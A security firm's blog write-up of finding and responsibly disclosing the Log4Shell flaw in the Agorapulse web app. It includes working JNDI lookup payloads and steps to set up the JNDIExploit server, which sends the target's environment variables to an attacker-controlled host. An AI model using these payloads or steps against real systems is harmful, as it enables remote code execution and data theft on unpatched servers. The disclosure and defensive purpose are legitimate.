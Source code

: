 ```yaml
---
layout: post
title:  "How did we Found Log4shell on Agorapulse"
author: snapsec
categories: [ log4shell,article]
image: assets/images/agora-log4j/0.png
---
```



Log4j is a logging framework for Java applications. It is a popular choice for developers looking for a simple and flexible logging solution. However, in the past Log4j has been found to be vulnerable to a number of security threats. The log4j library has recently been found to contain a serious vulnerability that went by the moniker of log4shell and gained widespread attention. This vulnerability allows unauthenticated remote code execution on vulnerable servers and may be exploited to expose sensitive information.


Log4Shell vulnerability is a critical vulnerability, affecting Apache Log4j versions 2.0 to 2.14.1, [as identified by Chen Zhaojun of the Alibaba Cloud Security Team](https://www.bloomberg.com/news/articles/2021-12-13/how-apache-raced-to-fix-a-potentially-disastrous-software-flaw). NIST published a critical CVE in the National Vulnerability Database on December 10th, 2021, naming this [CVE-2021–44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228). Apache Software Foundation assigned the maximum CVSS severity rating of 10.

This disclosure came storming into the security industry and havoc was created because all companies implementing this vulnerable framework were exploitable by this critical vulnerability. One can get an idea from the [analytics published](https://www.hackerone.com/vulnerability-management/log4shell-attack-evolution) by HackerOne which says, “Hackers have submitted over 2,000 Log4Shell reports to over 400 of our customers. The majority of reports were made in the first 14 days after the public disclosure of Log4 Shell". Almost the same number of reports were submitted on bugcrowd as well with over 300 reports submitted in a single day.



## What is agorapulse:

Agorapulse basically provides everything an organization could possibly need for social media marketing, monitoring, and management. Agora Pulse offers a comprehensive and compact platform for businesses to execute their marketing strategies while remaining under budget. The software is used to create and schedule social media content, engage audiences, listen for key terms, and analyze social media performance.


## How we found log4js on agorapulse:

It was the middle of the winter of 2021 when the news of log4j vulnerability broke out in the cyber security industry. And as the norm goes, it got all the security researchers on their heels. As the clock was ticking, our company decided to focus wholly on exploiting this vulnerability.

Our company had many targets to focus on and scan for this vulnerability. So the options were open. One of those available targets was agorapulse. We plunged into research mode and figured out how we were going to scan for this vulnerability. Due to the fact that the vulnerability could be present on any endpoint or any request, it was really hard to focus on one part of an application. So we decided to inject payloads all over the web application and wait for any pingbacks. To do that, we identified features and functionalities where we could use our payloads.

As the application was pretty vast with multiple features, we had to stay organized. We used a simple and comprehensive approach of pasting payloads everywhere in the application, and as said above to keep things organized, we used functionality-specific identifiers in the payloads.

For example

If we were using a payload in the profile-picture field we would use `${jndi:ldap://profilepic.<Your-Burp-Collab-URL>/a}` and if we were pasting a payload in the message box we used `${jndi:ldap://inbox.<Your-Burp-Collab-URL>/a}` and so on, It easily allowed us to identify the vulnerable request to trigger the vulnerability.


On the other hand, we also played it safe, using a payload that was not at all harmful to the client i.e did not result in any denial of service attack or executing any malicious commands inside the application. The purpose of the payload was just to give us a pingback so the place of vulnerability could be identified. So we devised the following safe payload to identify the DNS pingbacks : `${jndi:ldap://<Your-Burp-Collab-URL>/a}`.

So now the identification process began, and after a while, we received two pingbacks. One of the received was a false positive. But next up, we had a DNS pingback that identified the presence of Log4shell vulnerability.


## Summarizing the Steps

So, the steps to reproduce were as follows

- Start Burp and create a new burp collaborator Client
- Now Login to agorapulse and click on `Publish` to publish a new post.

![x](/blog/assets/images/agora-log4j/1.png)



- Now use your burp collaborator to make a new payload `${jndi:ldap://<Your-Burp-Collab-URL>/a}` and paste it in the Post Section.
- Now Select any profile from the left side and Publish the POST

![x](/blog/assets/images/agora-log4j/2.png)

- On going back to the burp collaborator client, you will see a Pingback.

![x](/blog/assets/images/agora-log4j/Three.png)


  
## Demonstration of Impact ( Remote Code Execution )


As mentioned in earlier sections, successful exploitation could lead to RCE. We refrained from taking any such action that could lead to any kind of disruption in services. So, we decided to prove the impact by extracting the global PATH variable to prove the real impact of the vulnerability, and we needed to set up a JNDI server for that. So we quickly set up an Amazon EC2 and set up a JNDI server using the following approach.

- SSH to your Server


```console
ssh user@<your-ip>
```

- Download and Install JNDI Server

```console
wget https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip
unzip JNDIExploit.v1.2.zip
```
-Run the Exploit and you should see the following output on screen

```console
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i <your-ip> -p 8888
```

After the following commands, we had our JDNI server running on our `ServerIP:8888`

As we went back to Agorapulse and made another post with this Payload : `${jndi:ldap://[ServerIp]:1389/${env:PATH}`

  
we were able just able to extract the environment variables of the server.


![x](/blog/assets/images/agora-log4j/4.png)
  

We stopped right after extracting the path variables of the vulnerable server just to keep the exploitation ethical. Hence, no sensitive, confidential, or any other information related to their users was extracted.


## Response of Agora Team

After submitting the report to the agora team, we got their first response within a day. They were responsive and concerned with the security of their online assets. They fixed the bug on the same day and rewarded our finding.

After their fix was implemented, the team requested a re-check on the vulnerability, and we tried various payloads and bypasses to confirm if the fix was working well. But we were unable to bypass the fix, and it was working fine, so we confirmed the fix.

  
  
> ⚠️ Agorapulse was one of the 14 companies Snapsec helped to detect and fix Log4shell on the day it was publicly disclosed. 

## About us

Snapsec is a Cyber security service company for rapidly growing SaaS businesses, we help you with an enhanced level of security to defend your critical networks and data at affordable charges for our services.

Please feel free to contact us at support@snapsec.com if you're seeking a company that appreciates your security and guarantees that you are completely protected from online security risks. 
 
